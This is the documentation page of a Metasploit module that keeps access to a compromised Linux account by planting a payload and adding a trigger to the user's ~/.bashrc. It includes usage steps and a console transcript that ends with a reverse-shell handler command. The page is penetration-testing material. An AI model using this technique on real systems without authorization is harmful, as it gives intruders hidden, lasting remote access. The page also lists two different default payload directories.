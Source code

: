 ## Description

  This module establishes persistence via the Linux Bash profile method.
  This module makes two changes to the target system.
  First, the module writes a payload to a directory (`/var/temp/` by default).
  Second, the module writes a payload execution trigger to the Bash profile (`~/.bashrc` by default).
  The persistent payload is executed whenever the victim user opens a Bash terminal.

## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu 19 (x86_64) running GNU bash, version 5.0.3(1)-release

## Verification Steps

  1. Start `msfconsole`
  2. Get a Meterpreter session
  3. `use exploit/linux/local/bash_profile_persistence`
  4. `set SESSION [SESSION]`
  5. `run`
  6. On victim, open a new Bash terminal
  7. You should get a new session with the permissions of the exploited user account

## Options

  **BASH_PROFILE**

  The path to the target Bash profile. (default: `~/.bashrc`)

  **PAYLOAD_DIR**

  A writable directory file system path. (default: `/var/tmp`)

## Scenarios

```
msf > use exploit/linux/local/bash_profile_persistence
msf exploit(linux/local/bash_profile_persistence) > set SESSION 1
msf exploit(linux/local/bash_profile_persistence) > exploit

[*] Bash profile exists: /home/user/.bashrc
[*] Bash profile is writable: /home/user/.bashrc
[*] Created backup Bash profile: /root/.msf4/logs/persistence/192.168.1.191_20191128.130945_Bash_Profile.backup
[*] Writing '/var/tmp/IgHypGLMglheQ' (126 bytes) ...
[+] Wrote payload trigger to Bash profile
[!] Payload will be triggered when target opens a Bash terminal
[!] Don't forget to start your handler:
[!] msf> handler -H 0.0.0.0 -P 4444 -p cmd/unix/reverse_python
```
